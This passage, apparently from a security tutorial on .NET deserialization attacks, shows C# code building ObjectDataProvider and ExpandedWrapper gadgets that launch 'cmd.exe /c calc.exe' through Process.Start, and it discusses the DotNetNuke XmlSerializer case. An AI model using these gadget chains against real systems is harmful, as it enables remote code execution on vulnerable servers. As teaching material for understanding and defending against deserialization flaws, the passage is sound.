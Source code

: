 ```java
using System.Windows.Data;
using System.Diagnostics;

namespace ODPCustomSerialExample
{
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider myODP = new ObjectDataProvider();
            myODP.ObjectType = typeof(Process);
            myODP.MethodParameters.Add("cmd.exe");
            myODP.MethodParameters.Add("/c calc.exe");
            myODP.MethodName = "Start";
        }
    }
}
```
```
Note that you need to add as reference _C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll_ in order to load `System.Windows.Data`

## ExpandedWrapper

Using the previous exploit there will be cases where the **object** is going to be **deserialized as** an _**ObjectDataProvider**_ instance (for example in DotNetNuke vuln, using XmlSerializer, the object was deserialized using `GetType`). Then, will have **no knowledge of the object type that is wrapped** in the _ObjectDataProvider_ instance (`Process` for example). You can find more [[https://translate.google.com/translate?hl=en&sl=auto&tl=en&u=https%3A%2F%2Fpaper.seebug.org%2F365%2F&sandbox=1|information about the DotNetNuke vuln here]].

This class allows to s**pecify the object types of the objects that are encapsulated** in a given instance. So, this class can be used to encapsulate a source object (_ObjectDataProvider_) into a new object type and provide the properties we need (_ObjectDataProvider.MethodName_ and _ObjectDataProvider.MethodParameters_).\
This is very useful for cases as the one presented before, because we will be able to **wrap \_ObjectDataProvider**_** inside an **_**ExpandedWrapper** \_ instance and **when deserialized** this class will **create** the _**OjectDataProvider**_ object that will **execute** the **function** indicated in _**MethodName**_.

You can check this wrapper with the following code:

```java
using System.Windows.Data;
using System.Diagnostics;
using System.Data.Services.Internal;

namespace ODPCustomSerialExample
{
    class Program
    {
        static void Main(string[] args)
        {
            ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
            myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
            myExpWrap.ProjectedProperty0.ObjectInstance = new Process();
            myExpWrap.ProjectedProperty0.MethodParameters.Add("cmd.exe");
            myExpWrap.ProjectedProperty0.MethodParameters.Add("/c calc.exe");
            myExpWrap.ProjectedProperty0.MethodName = "Start";
        }
    }
}
```